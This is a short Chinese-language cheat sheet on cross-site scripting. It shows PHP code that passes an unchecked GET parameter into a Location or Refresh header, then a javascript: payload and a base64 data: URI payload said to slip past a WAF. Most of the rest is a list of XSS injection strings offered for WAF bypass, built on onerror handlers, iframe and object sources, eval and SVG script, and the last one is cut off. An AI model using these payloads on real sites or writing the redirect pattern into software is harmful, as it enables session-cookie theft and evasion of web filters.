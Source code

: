 


### **通过请求重定向构造XSS**

•存在漏洞代码:


...
 header('Location: '.$_GET['param']);
...


同样包括:


...
 header('Refresh: 0; URL='.$_GET['param']);
...


•这种请求不会绕过WAF:


/?param=javascript:alert(document.cookie)


•这种请求可以绕过WAF并且XSS攻击可以在某些浏览器执行:


/?param=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=


**绕过**WAF可用**字符串.**


<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">

<Video> <source onerror = "javascript: alert (XSS)">

<Input value = "XSS" type = text>

<applet code="javascript:confirm(document.cookie);">

<isindex x="javascript:" onmouseover="alert(XSS)">

"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

">

"><iframe src="javascript:alert(XSS)">

<object data="javascript:alert(XSS)">

<isindex type=image src=1 onerror=alert(XSS)>

<img src=x:alert(alt) onerror=eval(src) alt=0>



<iframe/src="data:text/html,<svg onload=alert(1)>">

<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>

<svg><script xlink:href=data&colon;,window.open('<https://www.google.com/>')></script
